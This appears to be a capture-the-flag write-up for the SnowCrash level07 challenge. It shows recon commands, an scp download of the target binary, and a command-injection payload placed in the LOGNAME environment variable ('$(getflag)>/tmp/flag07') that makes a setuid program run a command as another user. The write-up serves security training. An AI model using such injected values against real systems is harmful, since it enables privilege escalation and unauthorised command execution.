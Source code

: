 ## Project README: Finding flag07

Our routine: 
```bash
ls -la
find / -user flag07 -print 2>/dev/null
```
We decompiled the file after we dowloaded with command:
```bash
scp -P 4343 level07@localhost:/home/user/level07/level07 ~
```

We saw that program was using LOGNAME env parameter.
So the idea is to make this file run getflag cause in doing so we are not running getflag as user **level07** but as **flag07** since level07 file was created by **flag07**.

To do so, we setted up $LOGNAME as **getflag**.

Command line :

```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)>/tmp/flag07'
level07@SnowCrash:~$ ./level07
level07@SnowCrash:~$ cat /tmp/flag07
```

And VOILA

